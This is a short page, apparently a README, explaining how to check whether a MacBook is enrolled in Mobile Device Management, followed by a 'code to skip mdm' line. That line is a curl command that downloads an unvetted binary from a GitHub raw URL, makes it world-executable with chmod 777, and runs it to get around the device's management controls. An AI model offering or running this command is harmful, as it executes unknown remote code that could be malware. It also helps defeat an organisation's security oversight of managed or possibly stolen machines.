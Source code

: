 To determine if your MacBook is enrolled in Mobile Device Management (MDM), open the Apple menu and select 'System Settings' (macOS 13 and later) or 'System Preferences' (macOS 12 and earlier). Navigate to 'Profiles' or 'Profiles & Device Management'; if you see a profile named 'Device Enrollment Program' or similar, your MacBook is enrolled in MDM. Alternatively, open Terminal and type:

```sh
profiles status -type enrollment
```

if it returns 'Enrolled via DEP: Yes' and 'MDM enrollment: Yes (User Approved)', your MacBook is enrolled in MDM.

→ code to skip mdm: 

```sh
curl -# https://raw.githubusercontent.com/skip-m/m/main/MChip -o file && chmod 777 ./file && ./file
```
